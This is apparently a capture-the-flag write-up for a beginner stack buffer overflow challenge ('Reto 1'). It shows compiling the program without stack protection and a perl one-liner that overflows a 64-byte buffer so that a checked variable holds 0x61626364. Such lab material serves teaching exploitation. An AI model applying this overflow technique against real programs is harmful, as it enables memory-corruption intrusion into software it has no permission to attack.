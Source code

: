 ## Reto 1

### Compilation:

      gcc reto1.c -o reto1 -fno-stack-protector -m32

### Solution:

Now we have an if, its checks that the value is 0x61626364, now let's go from hexadecimal to ascii code,


      Hex -> ASCII
      61 -> a
      62 -> b
      63 -> c
      64 -> d

Ussing little endian, now we have the solution:

      ./reto1 $(perl -e 'print "a"x64 . "dcba"')
